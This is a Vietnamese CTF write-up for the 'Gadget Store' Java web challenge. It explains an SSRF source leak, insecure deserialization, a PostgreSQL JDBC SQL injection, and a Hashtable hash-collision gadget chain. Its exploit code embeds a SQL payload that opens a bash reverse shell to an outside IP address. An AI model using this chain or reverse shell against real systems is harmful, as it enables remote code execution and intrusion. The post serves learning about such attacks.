




+++
date = '2025-09-26T21:00:00+07:00'
draft = false
title = 'Phân tích nhanh gadget chain trong challenge Gadget Store'
+++

# Gadget Store

Đây là một challenge web trong khuôn khổ sự kiện Smart Banking 6th.

# Tóm tắt

Trang web là một cửa hàng cho phép người dùng mua hàng, các sản phẩm đã mua sẽ được lưu trong session. Khi người dùng export thông tin mua hàng, thông tin mua hàng sẽ được serialized và người dùng tải về, ngược lại người dùng cũng có thể upload file .ser (chứa data đã serialized) để import thông tin mua hàng mua mình.

# Soluction

Bài này mình không làm được cho đến tận khi có writeup nên dưới đây chỉ là những thông tin mình tổng hợp và tóm tắt lại.

## Leak source code via SSRF

Trang web tồn tại lỗ hổng tại chức năng preview hình ảnh, server sẽ truy cập url được cung cấp bởi người dùng và trả về dữ liệu được base64 encoded.

Server đã filter một số protocol đọc file:

```java=
public boolean isValidScheme(String scheme) {
        return !scheme.contains("jar") && !scheme.contains("ftp") && !scheme.contains("jrt") && !scheme.contains("file");
}
```

Tuy nhiên ta vẫn có thể sử dụng protocol `url:classpath://` để lấy được source code (class file).

## Insecure Deserialization

Tồn tại lỗ hổng Insecure Deserialization tại method:

```java
public String importPurchases(HttpSession session, Part filePart) {
        [...SNIP...]
        try {
            Object obj = ois.readObject();
            if (!(obj instanceof List)) {
                var13 = "error:An error occurred when importing purchases";
                break label60;
            }

            List<Gadget> purchases = (List)obj;
            session.setAttribute("purchases", purchases);
            var7 = "success:Imported " + purchases.size() + " purchases";
        } catch (Throwable var10) {
            [...SNIP...]
        }
        [...SNIP...]
}
```

Như đã nói, trang web cho phép người dùng import thông tin mua hàng thông qua deserialized data, và cũng không có cơ chế kiểm tra đầu vào nào được triển khai, dẫn đến ta có thể deserialize tùy ý.

## SQL Injection

Thư viện `org.postgresql:org.postgresql:42.7.1` tồn tại [lỗ hổng SQL Injection](https://github.com/advisories/GHSA-24rp-q3w6-vc56).
Để khai thác lỗ hổng này ta cần một số điều kiện.



Thật may mắn làm sao khi mọi điều kiện đều được thỏa mãn:

```java
private DataSource getDataSource() throws SQLException {
        String url = String.format("jdbc:postgresql://%s:5432/%s?user=%s&password=%s&ssl=false&connectTimeout=10", this.host, this.database, this.user, this.password);
        DataSource dataSource = new DataSource(this.getProperties(url));
        return dataSource;
}
```

## Exploit chain

Để có thể khai thác được SQLi, ta cần chạm được đến method `equals()` của class `UserDAO` kèm với một Map object chứa các value đã được ta kiểm soát.
Ta có thể đạt được điều này nhờ kết hợp với lỗ hổng Insecure Deserialize bên trên.
Có được gadget chain như sau:

```java
java.util.Hashtable.readObject()
    java.util.Hashtable.reconstitutionPut()
        java.util.AbstractMap.equals()
            dao.UserDAO.equals()
```

Về cơ bản chain này lợi dụng hash collision các key của Hashtable để gọi đến method `equals()` của key bên trong nó.
Nhưng mình sẽ giải thích kỹ một chút các ta tạo ra hash collision.

Dưới đây là code exploit

```java
UserDAO userDAO = new UserDAO();
Database db = new Database();
Field pwField = db.getClass().getDeclaredField("password");
pwField.setAccessible(true);
pwField.set(db, "9def3b1c8a63051a5cdf91ed1b35edfa&preferQueryMode=simple");

LinkedHashMap<String, Object> map = new LinkedHashMap<>();
map.put("amount", Double.valueOf(-100.0D));
map.put("username", "\n;CREATE TEMP TABLE output_table (line text);COPY output_table FROM PROGRAM $$bash -c \"bash -i >& /dev/tcp/160.250.134.146/4444 0>&1\"$$; --");
LinkedHashMap<String, Object> map1 = new LinkedHashMap<>();
map1.put("12", userDAO);
map1.put("34", map);
LinkedHashMap<String, Object> map2 = new LinkedHashMap<>();
map2.put("34", userDAO);
map2.put("12", map);

Hashtable<Object, Object> hashtable = new Hashtable<>();
hashtable.put(map1, 111);
hashtable.put(map2, 222);
```

Khi hashtable được deserialize, key của các phần tử sẽ được tính toán hashCode trước khi put vào hashtable. Khi có hai key có cùng 1 hash, nó sẽ kiểm tra xem 2 key có giống nhau không bằng cách gọi hàm `equals()` của key.



Sau đây mình sẽ phân tích tại sao code exploit trên có thể tạo ra được hash collision.
Trước tiên ta cần biết cách class `LinkedHashMap` tính hashCode.
Về bản chất class `LinkedHashMap` không implement method `hashCode()` nên nó sử dụng method này của class `AbstractMap`.



Method `hashCode()` của entry (`LinkedHashMap$Entry`)



Nên ta có thể thay thế `LinkedHashMap` với những class extends `AbstractMap` và không tự triển khai method `hashCode()`.

Ví dụ ta có một object `linkedHasMap1` có 2 entry `<1, "string1">` và `<2, "string2">`, thì `hashCode` của nó sẽ là
```
hashCode(<1, "string1">) + hashCode(<2, "string2">) = hashCode(1) + hashCode("string1") + hashCode(2) + hashCode("string2")
```

Vậy ở code exploit phía trên `hashtable` có 2 `LinkedHashMap` với `hashCode` của `map1` là:
```
hashCode(<12, userDAO>) + hashCode(<34, map>) = hashCode(12) + hashCode(userDAO) + hashCode(34) + hashCode(map)
```
và `hashCode` của `map2`:
```
hashCode(<12, map>) + hashCode(<34, userDAO>) = hashCode(12) + hashCode(map) + hashCode(34) + hashCode(userDAO)
```
Rõ ràng là chúng bằng nhau với quy tắc hoán vị, vậy là ta đã thành công tạo ra hash collision để trigger được method `equals()`.

Phần còn lại của challenge là khai thác lỗ hổng SQL Injection để đọc được `/flag*.txt`

# Kết

Qua challenge này mình nhận ra một cách rõ ràng hơn là mình còn quá yếu trong món Java nói chung và Java Insecure Deserialization nói riêng, mình đã ngồi hơn 3 ngày chỉ để đi tìm gadget chain nhưng không được, tưởng "xa tận chân trời mà gần ngay trước mắt".